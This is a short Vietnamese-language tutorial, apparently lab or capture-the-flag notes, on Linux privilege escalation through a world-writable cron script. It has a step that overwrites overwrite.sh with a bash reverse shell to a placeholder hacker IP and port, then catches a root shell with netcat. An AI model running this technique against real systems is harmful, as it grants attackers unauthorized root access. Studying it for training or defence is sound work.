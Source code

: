 # File Perms
- Cron Jobs (Công việc lương thấp) là những prog hay scripts mà usr có thể lên lịch để chạy ở thời điểm nhất định. Cron Table files (crontabs) chuyền config tới cron jobs. Crontabs toàn hệ thống được đặt ở ```/etc/crontab```

- Xem nội dung của crontab này:

      cat /etc/crontab
- Nên có 2 cron jobs được lên lịch để chạy mỗi phút. Một chạy ```overưrite.sh```, còn lại chạy ```/usr/local/bin/compress.sh```
- Locate địa chỉ của overwrite.sh:

      locate overwrite.sh
- Kiểm tra xem nó có thể dudợc chỉnh sửa bởi tất cả không:

      ls -l /usr/local/bin/overwrite.sh
- Thay nội dung của của overwrite.sh thành như dưới đấy

      #!/bin/bash
      bash -i >& /dev/tcp/<hacker_ip>/<hacker_port> 0>&1
- Setup một netcat listener trên máy hacker trùng với ```<hacker_port``` và đợi nó hoạt động. Root shell sẽ xuất hiện sau đó
